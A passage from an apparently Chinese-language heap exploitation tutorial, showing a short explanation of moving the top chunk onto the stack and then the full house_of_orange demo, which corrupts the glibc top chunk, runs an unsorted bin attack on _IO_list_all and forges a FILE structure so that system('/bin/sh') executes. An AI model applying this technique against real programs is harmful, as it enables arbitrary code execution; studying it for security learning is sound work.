 free后chunk b 和fake_chunk进行合并，成为新的top chunk，top chunk的地址在栈上，所以再分配时就会得到在栈上的chunk。

### house_of_orange.c

#### 0x00 demo代码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);//申请一块内存

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;//修改top_chunk的size

    p2 = malloc(0x1000);//申请超过
       
    io_list_all = top[2] + 0x9a8;//获取io_list_all的值，相对偏移是固定的

    top[3] = io_list_all - 0x10;//部署unsorted bin攻击

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
   
    top[24] = 1;

    top[21] = 2;
    top[22] = 3;

   
    top[20] = (size_t) &top[18];

    top[15] = (size_t) &winner;
    top[27] = (size_t ) &top[12];
    malloc(10);

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```
